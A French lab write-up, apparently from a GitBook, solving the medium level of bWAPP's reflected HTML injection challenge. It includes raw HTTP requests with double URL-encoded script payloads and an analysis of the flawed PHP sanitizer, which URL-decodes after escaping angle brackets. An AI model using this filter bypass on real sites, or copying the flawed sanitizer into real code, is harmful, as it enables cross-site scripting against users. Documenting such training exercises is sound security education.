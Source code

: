 # Niveau "Medium"

## Exploitation

L'affichage du prénom et du nom s'effectue ici de la même manière au sein d'une balise `<div></div>` :&#x20;

![](<../../../../../.gitbook/assets/image (26) (1) (1) (1).png>)

Dont voici la requête :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 80
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: PHPSESSID=315cfb443aea2634d941d18c55418bb3; security_level=1
Connection: close

firstname=pr%C3%A9nom+%5Blvl+medium%5D&lastname=nom+%5Blvl+medium%5D&form=submit
```

L'affichage des paramètres d'URL se faire directement au sein de la balise `<div></div>` contenant également le formulaire :&#x20;

```html
<div id="main">
  <h1>HTML Injection - Reflected (POST)</h1>
  <p>Enter your first and last name:</p>
  <form action="/bWAPP/htmli_post.php" method="POST">
    <p><label for="firstname">First name:</label><br />
    <input type="text" id="firstname" name="firstname"></p>
    <p><label for="lastname">Last name:</label><br />
    <input type="text" id="lastname" name="lastname"></p>
    <button type="submit" name="form" value="submit">Go</button>  
  </form>
  <br />
  Welcome prénom [lvl medium] nom [lvl medium]
</div>
```

Cela oblige donc à passer par l'insertion de nouvelles balises afin d'injecter du contenu. Dans ce niveau de difficulté, aucune balise ne semble être interprétée par l'application, que cela soit le classique `<script></script>` :&#x20;

![](<../../../../../.gitbook/assets/image (12) (1) (1).png>)

L'exécution de Javascript dans un attribut HTML :&#x20;

![](<../../../../../.gitbook/assets/image (11) (1) (1).png>)

Ou également l'utilisation de balises customs :&#x20;

![](<../../../../../.gitbook/assets/image (6) (1).png>)

Pour réussir ce challenge il va donc falloir identifier un moyen de transmettre l'information sous une autre forme mais qui sera tout de même interprétée par l'application. Après plusieurs tentatives, l'encodage URL de l'injection semble fonctionner :&#x20;

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 282
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: PHPSESSID=315cfb443aea2634d941d18c55418bb3; security_level=1
Connection: close

firstname=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2530%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e&lastname=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2531%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e&form=submit
```

![](<../../../../../.gitbook/assets/image (22) (1).png>)

## Analyse du code source

Après avoir testé que les paramètres sont bien présents, l'affichage s'effectue grâce à un simple `echo` :

{% code title="htmli_post.php" %}
```php
if(isset($_POST["firstname"]) && isset($_POST["lastname"])) {
  $firstname = $_POST["firstname"];
  $lastname = $_POST["lastname"];

  if($firstname == "" or $lastname == "") {
    echo "<font color=\"red\">Please enter both fields...</font>";
  }
  else {
    echo "Welcome " . htmli($firstname) . " " . htmli($lastname);
  }
}
```
{% endcode %}

Les données sont au préalable traitées par la méthode `htmli()` permettant de gérer la difficulté du niveau sélectionné :

{% code title="htmli_post.php" %}
```php
function htmli($data) {

  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);
      break;
    case "1" :
      $data = xss_check_1($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;
  }

  return $data;
}
```
{% endcode %}

Le level "Medium" correspond à la valeur 1, c'est à dire ici à l'exécution de la méthode `xss_check_1()` :&#x20;

{% code title="functions_external.php" %}
```php
function xss_check_1($data) {
  // Converts only "<" and ">" to HTLM entities
  $input = str_replace("<", "&lt;", $data);
  $input = str_replace(">", "&gt;", $input);

  // Failure is an option
  // Bypasses double encoding attacks
  // <script>alert(0)</script>
  // %3Cscript%3Ealert%280%29%3C%2Fscript%3E
  // %253Cscript%253Ealert%25280%2529%253C%252Fscript%253E
  $input = urldecode($input);

  return $input;
}
```
{% endcode %}

La fonction remplace les caractères `<` et `>` par leur équivalent en entité HTML, soit respectivement `&lt` et `&gt`, rendant impossible l'injection de balises HTML. La ligne 12, par contre, effectue un décodage URL avant de retourner la valeur pour affichage. Le contournement ici sera donc d'encoder URL l'injection (en fait à minima les caractères `<` et `>`) qui sera décodée par la fonction `xss_chech_1()`:

```http
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.116
Content-Length: 248
Origin: http://192.168.56.116
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.116/bWAPP/htmli_post.php
Cookie: PHPSESSID=315cfb443aea2634d941d18c55418bb3; security_level=1
Connection: close

firstname=%253cscript%253ealert%280%29%253c%2Fscript%253e%26lastname%3D%253cscript%253ealert%281%29%253c%2Fscript%253e&lastname=%253cscript%253ealert%280%29%253c%2Fscript%253e%26lastname%3D%253cscript%253ealert%281%29%253c%2Fscript%253e&form=submit
```

![](<../../../../../.gitbook/assets/image (24) (1) (1).png>)
